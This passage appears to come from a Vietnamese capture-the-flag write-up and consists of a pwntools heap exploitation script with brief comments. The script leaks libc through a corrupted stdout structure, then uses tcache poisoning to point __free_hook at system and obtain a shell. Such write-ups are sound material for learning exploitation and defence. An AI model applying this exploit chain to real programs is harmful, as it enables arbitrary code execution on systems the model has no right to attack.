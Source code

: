 ```python
    alloc(2, 0x10)  # tránh gộp chunk
 
    free(1)        
    alloc(3, 0x60)  # 3 thằng này sẽ chứa fd và bk đến main_arena
    alloc(4, 0x60)
    alloc(5, 0x60)


    free(4) #2
    free(5) #1

    copy(5, 3)   # change fd của chunk5 bằng stdout : 1/16
    edit(5, p16(0x36a0))
    alloc(6, 0x60)
    alloc(7, 0x60)
    try:
        edit(7, p64(0xfbad1800) + p64(0) * 3 + b'\x00')
        libc.address = u64(p.recvline()[8:16]) -  0x1ec980
        log.info(f'libc: {hex(libc.address)}')

        libc_freehook = libc.sym.__free_hook
        libc_system = libc.sym.system

        #### Tcache posioning ####
        alloc(8, 0x50)
        alloc(9, 0x50)

        free(9)
        free(8)

        edit(8,p64(libc_freehook))
        alloc(10, 0x50)
        alloc(11, 0x50)

        edit(11, p64(libc_system))
        alloc(12, 0x30)

        edit(12, b'/bin/sh\x00')
        free(12)
        break
    except:
        p.close()


p.interactive()
```

![image](https://hackmd.io/_uploads/ByHjXltvJg.png)

### cách 2 
